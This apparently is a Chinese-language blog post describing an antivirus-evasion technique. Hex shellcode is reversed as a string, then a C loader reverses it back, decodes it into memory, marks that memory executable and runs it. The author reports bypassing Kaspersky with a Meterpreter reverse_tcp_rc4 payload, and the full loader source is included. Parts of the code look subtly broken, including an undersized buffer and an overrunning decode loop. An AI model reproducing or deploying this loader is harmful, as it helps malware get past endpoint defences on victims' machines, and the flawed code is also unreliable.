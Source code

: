 # 翻转字符串绕卡巴斯基

## 简介

我也不想写什么花里胡哨的东西，就让我水一篇吧。

就继续延用这玩意把[SimpleShellcodeInject](https://github.com/DimopoulosElias/SimpleShellcodeInjector)，我还挺喜欢用这种shellcode传入方式的，让我们在这个基础上添加功能吧。

为了节省我们的时间就随便加一个能自动化实现的shellcode混淆方式\(偷懒，手动狗头\)，就直接添加一个字符串翻转吧。

## 思路

直接python一行代码翻转字符串。

![](../.gitbook/assets/image%20%28145%29.png)

在加载器内翻转字符串。

```text
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }
```

然后执行老哥的ssi，这里遇到一个坑，tm的vc6根本没有malloc\(略略略\)。

然后请出我们的卡巴斯基。

![](../.gitbook/assets/image%20%28148%29.png)

虽然我们古典主义脚本小子特别喜欢弹窗，这里我们再测一下Meterpreter。

防止在流量检测的时候被杀掉，我们使用windows/meterpreter/reverse\_tcp\_rc4这个payload。

![](../.gitbook/assets/image%20%28147%29.png)

![](../.gitbook/assets/image%20%28146%29.png)

略略略。

## 代码

```text
// hex.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"




int main(int argc, char* argv[]) {

    char *str = argv[1];
    

    unsigned int char_in_hex;
    
    unsigned int iterations = strlen(str);
    unsigned int memory_allocation = strlen(str) / 2;

    char* temp = (char*)VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    int p = 0;

    for (int i = strlen(str) - 1; i >= 0; i--)
    {
        temp[p++] = str[i];
    }

    char* shellcode = (char*)temp;

    for (i = 0; i < iterations - 1; i++) {
        sscanf(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }


    void* exec = VirtualAlloc(0, memory_allocation, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, NULL);

    (*(void (*WINAPI)()) exec)();

    return 0;
}

```

